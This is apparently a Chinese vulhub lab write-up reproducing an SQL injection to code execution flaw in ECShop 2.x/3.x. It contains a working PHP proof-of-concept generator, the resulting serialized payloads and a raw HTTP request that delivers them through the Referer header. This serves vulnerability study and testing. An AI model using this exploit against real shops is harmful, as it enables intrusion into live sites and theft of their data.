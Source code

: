 # ECShop 2.x/3.x SQL注入/任意代码执行漏洞

## 漏洞描述

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- https://paper.seebug.org/691/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。

注册普通用户user。

## 漏洞复现

POC脚本：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

```
POC for ECShop 2.x: 
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}554fcae493e564ee0dc75bdf2ebf94ca

POC for ECShop 3.x: 
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: [POC HERE]
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

2.x的执行结果：

![image-20220222231029623](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222310789.png)

3.x的执行结果（使用3.x的POC执行不成功，使用2.x的POC执行成功）：

![image-20220222232542804](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222325965.png)

